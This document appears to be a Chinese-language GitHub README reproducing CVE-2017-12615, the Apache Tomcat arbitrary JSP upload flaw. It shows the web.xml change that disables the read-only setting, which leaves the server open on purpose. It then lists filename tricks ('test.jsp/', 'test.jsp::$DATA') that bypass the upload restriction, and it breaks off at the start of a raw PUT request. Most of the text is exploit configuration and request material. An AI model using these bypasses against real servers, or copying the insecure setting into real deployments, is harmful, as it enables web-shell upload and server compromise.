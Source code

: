     
  <div id="readme" class="readme blob instapaper_body">
    <article class="markdown-body entry-content" itemprop="text"><h1><a href="#cve-2017-12615" aria-hidden="true" class="anchor" id="user-content-cve-2017-12615"><svg aria-hidden="true" class="octicon octicon-link" height="16" version="1.1" viewBox="0 0 16 16" width="16"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>CVE-2017-12615</h1>
<p>打开tomcat下conf\web.xml文件
找到</p>
<pre><code>    &lt;servlet&gt;
        &lt;servlet-name&gt;default&lt;/servlet-name&gt;
        &lt;servlet-class&gt;org.apache.catalina.servlets.DefaultServlet&lt;/servlet-class&gt;
        &lt;init-param&gt;
            &lt;param-name&gt;debug&lt;/param-name&gt;
            &lt;param-value&gt;0&lt;/param-value&gt;
        &lt;/init-param&gt;
        &lt;init-param&gt;
            &lt;param-name&gt;listings&lt;/param-name&gt;
            &lt;param-value&gt;false&lt;/param-value&gt;
        &lt;/init-param&gt;
        &lt;load-on-startup&gt;1&lt;/load-on-startup&gt;
    &lt;/servlet&gt;

</code></pre>
<p>添加<code>readonly</code>为false</p>
<pre><code>    &lt;servlet&gt;
        &lt;servlet-name&gt;default&lt;/servlet-name&gt;
        &lt;servlet-class&gt;org.apache.catalina.servlets.DefaultServlet&lt;/servlet-class&gt;
        &lt;init-param&gt;
            &lt;param-name&gt;debug&lt;/param-name&gt;
            &lt;param-value&gt;0&lt;/param-value&gt;
        &lt;/init-param&gt;
        &lt;init-param&gt;
            &lt;param-name&gt;listings&lt;/param-name&gt;
            &lt;param-value&gt;false&lt;/param-value&gt;
        &lt;/init-param&gt;
		&lt;init-param&gt;   
            &lt;param-name&gt;readonly&lt;/param-name&gt;   
            &lt;param-value&gt;false&lt;/param-value&gt;   
        &lt;/init-param&gt;
        &lt;load-on-startup&gt;1&lt;/load-on-startup&gt;
    &lt;/servlet&gt;

</code></pre>
<p>不能直接put jsp或者jspx文件
在windows下可以用<code>test.jsp/</code>、<code>test.jsp/.</code>、<code>test.jsp::$DATA</code>来绕过
经过测试，最新版<a href="http://tomcat.apache.org/download-70.cgi" rel="nofollow">apache-tomcat-7.0.81</a>可以用<code>test.jsp/</code>、<code>test.jsp/.</code>来绕过</p>
<pre><code>PUT /test.jsp/ HTTP/1.1
Host: 192.168.135.132:8080
Content-Length: 25
